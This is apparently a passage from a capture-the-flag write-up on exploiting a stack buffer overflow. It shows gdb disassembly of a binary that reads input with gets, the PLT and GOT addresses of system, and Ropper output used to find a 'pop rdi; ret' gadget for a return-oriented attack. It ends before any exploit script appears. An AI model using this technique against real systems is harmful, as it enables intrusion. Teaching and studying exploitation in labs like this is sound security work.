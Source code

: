 In `gdb`, I'll disassemble main:



    gdb-peda$ disassemble main 
    Dump of assembler code for function main:
       0x000000000040115f <+0>:     push   rbp
       0x0000000000401160 <+1>:     mov    rbp,rsp
       0x0000000000401163 <+4>:     sub    rsp,0x70
       0x0000000000401167 <+8>:     lea    rdi,[rip+0xe9a]        # 0x402008
       0x000000000040116e <+15>:    call   0x401040 <system@plt>
       0x0000000000401173 <+20>:    lea    rdi,[rip+0xe9e]        # 0x402018
       0x000000000040117a <+27>:    mov    eax,0x0
       0x000000000040117f <+32>:    call   0x401050 <printf@plt>
       0x0000000000401184 <+37>:    lea    rax,[rbp-0x70]
       0x0000000000401188 <+41>:    mov    esi,0x3e8
       0x000000000040118d <+46>:    mov    rdi,rax
       0x0000000000401190 <+49>:    mov    eax,0x0
       0x0000000000401195 <+54>:    call   0x401060 <gets@plt>
       0x000000000040119a <+59>:    lea    rax,[rbp-0x70]
       0x000000000040119e <+63>:    mov    rdi,rax
       0x00000000004011a1 <+66>:    call   0x401030 <puts@plt>
       0x00000000004011a6 <+71>:    mov    eax,0x0
       0x00000000004011ab <+76>:    leave  
       0x00000000004011ac <+77>:    ret    
    End of assembler dump.



I'll grab the address of `main()` (0x40115f) for later. Where I see
`system` called, what is called is the PLT address for `system`
(0x401040). If I look at that address, I'll see both the PLT address and
the GOT address (0x404020):



    gdb-peda$ x/i 0x401040
       0x401040 <system@plt>:       jmp    QWORD PTR [rip+0x2fda]        # 0x404020 <system@got.plt>



Now I need a POP RDI gadget. I'll use
[Ropper](https://github.com/sashs/Ropper):



    root@kali# ropper -f myapp | grep rdi
    [INFO] Load gadgets from cache
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    0x000000000040108a: adc dword ptr [rax], eax; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040119b: lea eax, dword ptr [rbp - 0x70]; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    0x000000000040119a: lea rax, qword ptr [rbp - 0x70]; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    0x0000000000401087: mov ecx, 0x4011b0; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x0000000000401086: mov rcx, 0x4011b0; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040108d: mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040119e: mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    0x00000000004010c6: or dword ptr [rdi + 0x404048], edi; jmp rax; 
    0x0000000000401090: pop rdi; adc dword ptr [rax], eax; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040120b: pop rdi; ret; 
    0x000000000040119c: xchg eax, r8d; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    0x000000000040119d: nop; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
